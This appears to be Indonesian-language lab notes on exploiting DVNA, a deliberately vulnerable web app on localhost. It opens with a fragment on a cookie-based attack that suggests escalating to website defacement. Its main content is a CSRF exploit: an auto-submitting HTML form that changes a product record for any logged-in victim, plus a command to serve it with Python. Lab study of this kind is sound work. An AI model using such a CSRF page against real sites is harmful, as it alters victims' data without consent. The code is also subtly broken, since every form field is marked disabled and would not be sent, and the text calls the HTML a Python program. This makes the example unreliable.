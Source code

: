 #### Validate
- Jalankan dengan cookies
- Jalankan tanpa cookies

#### Enhance
- Tambah mekanisme untu terima cookies sebagai input program.
- Coba payload lain yang memberikan efek lebih besar. Misal website deface.

### CSRF Exploit

#### Define
- **Input**: web server baru, perintah hit server
- **Output**: penambahan user via web UI lain
- **Process**: Buat web server yang melakukan request, kemudian request dikirim ke DVNA agar data di DVNA bertambah

#### Refine
- Buat HTML baru yang isinya melakukan request untuk tambah data
- Buat web server yang memnjalankan HTML tersebut.
- Buat agar request dilakukan ke back-end DVNA
- Jika user punya session login, maka data baru akan masuk.

#### Implement/Iterate

- Sebelum masuk ke dalam code, cek dulu web yang dijadikan target. Pastikan web dapat diakses. Dalam kasus DVNA, alamat web nya adalah `http://localhost:9090`.
- Cek URL path yang akan digunakan sebagai target. Dalam kasus DVNA, targetnya adalah `http://localhost:9090/app/modifyproduct`.
- Setelah siap, mulai buat program Python.

```html
<!-- csrf_exploit.html -->
<!DOCTYPE html>
<html>
  <body onload="document.forms[0].submit()">
    <form action="http://localhost:9090/app/modifyproduct" method="POST">
      <input disabled name="id" value="2" />  
      <input disabled name="name" value="CSRF Product" />
      <input disabled name="code" value="csrfed" />
      <input disabled name="tags" value="hacked" />
      <input disabled name="description" value="This product is authorized. just kidding :p" />
    </form>
    <p>If the victim is logged in, this auto-submitted to back-end</p>
  </body>
</html>
```

- Jalankan web server dengan Python. Untuk case ini jalankan di port `9098` agar mirip port `9090` dari DVNA. 
```bash
python3 -m http.server 9098
```
